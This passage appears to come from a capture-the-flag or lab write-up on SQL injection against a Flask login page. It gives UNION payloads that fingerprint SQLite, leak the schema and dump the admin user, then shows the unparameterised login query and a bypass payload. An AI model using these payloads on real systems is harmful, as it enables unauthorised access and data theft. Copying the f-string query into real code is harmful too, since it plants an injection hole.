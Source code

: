 ```sql
/* Test if database is SQLite */
%' UNION ALL SELECT sqlite_version(), sqlite_source_id(), 'sqlite', 0 --

/* Leak the database schema to determine the user table & columns */
%' UNION ALL
SELECT name, sql, 'just_text_as_padding', 0
FROM sqlite_schema
WHERE type='table' AND sql IS NOT NULL --

/* Leak the admin user */
%' UNION ALL
SELECT username, role, is_active, 0
FROM user -- 
```

### 3.2 Login Bypass

From here, you can utilise the admin user and perform a login bypass:

```python
# Vulnerable Login Code
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        u = request.form.get("username", "")
        p = request.form.get("password", "")
        hash_p = sha256(p.encode("utf-8")).hexdigest()
        tbl = users_table()
        sql = (
            f"SELECT username, role, is_active FROM {tbl} "
            f"WHERE username='{u}' AND password_hash='{hash_p}' AND is_active=1"
        )
        with get_conn() as conn:
            row = conn.execute(sql).fetchone()
        if not row:
            flash("Invalid credentials or inactive account.", "danger")
            return redirect(url_for("login"))
        session["username"] = row["username"]
        session["role"] = row["role"]
        flash(f"Welcome, {row['username']}!", "success")
        return redirect(url_for("menu"))
    return render_template("login.html")
```

Some points in the code that are vulnerable:

* The SQL statement is not parameterised at all. This allows me to inject SQL to expand the functionality of the statement.
* It returns the first row when multiple entries are found.

```sql
/* Login bypass */
bob' AND 1=1 --
```
